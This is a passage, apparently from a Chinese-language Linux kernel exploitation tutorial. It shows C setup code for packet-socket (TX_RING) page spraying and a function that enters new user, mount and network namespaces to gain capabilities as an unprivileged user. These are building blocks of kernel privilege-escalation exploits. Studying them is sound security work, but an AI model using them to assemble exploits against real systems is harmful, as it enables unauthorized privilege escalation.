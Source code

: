 我们定义好如下变量和函数：

```c
#define PGV_PAGE_NUM 1000
#define PACKET_VERSION 10
#define PACKET_TX_RING 13

struct tpacket_req
{
    unsigned int tp_block_size;
    unsigned int tp_block_nr;
    unsigned int tp_frame_size;
    unsigned int tp_frame_nr;
};

/* each allocation is (size * nr) bytes, aligned to PAGE_SIZE */
struct page_request {
    int idx;
    int cmd;
};


/* operations type */
enum
{
    CMD_ALLOC_PAGE,
    CMD_FREE_PAGE,
    CMD_EXIT,
};

/* tpacket version for setsockopt */
enum tpacket_versions
{
    TPACKET_V1,
    TPACKET_V2,
    TPACKET_V3,
};

/* pipe for cmd communication */
int cmd_pipe_req[2], cmd_pipe_reply[2];

void unshare_setup(void)
{
    char edit[0x100];
    int tmp_fd;

    unshare(CLONE_NEWNS | CLONE_NEWUSER | CLONE_NEWNET);

    tmp_fd = open("/proc/self/setgroups", O_WRONLY);
    write(tmp_fd, "deny", strlen("deny"));
    close(tmp_fd);

    tmp_fd = open("/proc/self/uid_map", O_WRONLY);
    snprintf(edit, sizeof(edit), "0 %d 1", getuid());
    write(tmp_fd, edit, strlen(edit));
    close(tmp_fd);

    tmp_fd = open("/proc/self/gid_map", O_WRONLY);
    snprintf(edit, sizeof(edit), "0 %d 1", getgid());
    write(tmp_fd, edit, strlen(edit));
    close(tmp_fd);
}


```